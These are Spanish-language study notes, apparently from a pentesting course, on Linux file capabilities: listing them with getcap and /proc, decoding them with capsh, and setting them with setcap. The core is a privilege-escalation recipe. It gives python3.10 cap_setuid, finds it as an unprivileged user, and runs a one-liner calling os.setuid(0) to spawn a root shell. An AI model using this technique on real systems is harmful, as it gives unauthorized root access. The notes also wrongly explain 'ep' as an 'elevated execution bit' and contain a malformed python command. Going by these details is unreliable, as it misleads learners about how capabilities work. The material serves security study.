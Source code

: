 Listar capatibilities

ls /proc/

ls /proc/9/status
cat /proc/9/status | grep Cap

capsh --decode=00000034433ff  (nos decodea las capabilities)

vamos a setear una capabilitie a tcpdump
setcap cap_net_raw,cap_net_admin=eip /usr/bin/tcpdump
Esto hace que a nivel de cualquier usuario se puede ejecutar el binario (no es suid ni sudoer)

ahora estamos como usuario ken(normal)
vamos a listar las capabilities
getcap -r / 2>/dev/null

ahora vemos con
ps -faux te da un pid tcpdump 
hacemos un cat /proc/480/status | grep Cap
ahora ya viendo las capabillities hacemos un 
capsh --decode=(la capabilitie(su hash))
nos lista las capabilities tal que asi


hay una utilidad llamada getpcaps y le pasamos el PID y nos da la lectura de capabilities

Capabilities que mas suponen riesgo son las cap_setuid+ep (por ejemplo se pueden usar con python)

Para asignar una capabilitie a puython es 
setcap cap_setuid+ep /usr/bin/python3.10

ahora supongamos que estamos desde usuario ken(norml)

hacemos una busqueda con getcap
getcap -r / 2>/dev/null
utilizamos getcap /usr/bin/python3.10
asi que con python hacemos lo siguiente

python3.10 -c 'import os; os.setuid(0); os.system("bash)'
y nos da una shell

para retirar la capabilitie lo podemos hacer de la siguiente manera

setcap -r /usr/bin/python3.10


Capabilities hay muchas y podemos apoyarnos con gtfobins y podemos filtrar por capabilities
- si un proceso tiene la capability “**CAP_NET_ADMIN**” y la capability “**CAP_SETUID**” configurada como permitida, entonces el proceso puede modificar la configuración de red y cambiar su **UID** (**User ID**).


Para **listar** las capabilities de un archivo binario en Linux, puedes usar el comando **getcap**. Este comando muestra las capabilities efectivas, heredables y permitidas del archivo. Por ejemplo, para ver las capabilities del archivo binario **/usr/bin/ping**, puedes ejecutar el siguiente comando en la terminal:

➜ `getcap /usr/bin/ping`

La salida del comando mostrará las capabilities asignadas al archivo:

➜ `/usr/bin/ping = cap_net_admin,cap_net_raw+ep`

En este caso, el binario ping tiene dos capabilities asignadas: **cap_net_admin** y **cap_net_raw+ep**. La última capability (**cap_net_raw+ep**) indica que el archivo tiene el bit de ejecución elevado (**ep**) y la capability **cap_net_raw** asignada.

Para **asignar** una capability a un archivo binario, puedes utilizar el comando **setcap**. Este comando establece las capabilities efectivas, heredables y permitidas para el archivo especificado.

Por ejemplo, para otorgar la capability **cap_net_admin** al archivo binario **/usr/bin/my_program**, puedes ejecutar el siguiente comando en la terminal:

➜ `sudo setcap cap_net_admin+ep /usr/bin/my_program`

En este caso, el comando otorga la capability **cap_net_admin** al archivo **/usr/bin/my_program**, y también establece el bit de ejecución elevado (**ep**). Ahora, el archivo my_program tendrá permisos para administrar la configuración de red.

El **bit de ejecución elevado** (en inglés, elevated execution bit o “**ep**“) es un atributo especial que se puede establecer en un archivo binario en Linux. Este atributo se utiliza en conjunción con las capabilities para permitir que un archivo se ejecute con permisos especiales, incluso si el usuario que lo ejecuta no tiene privilegios de superusuario.


-----------------
------------

Para ver enlaces simbolicos hacemos ls -l
asi:
![[Pasted image 20250420231000.png]]

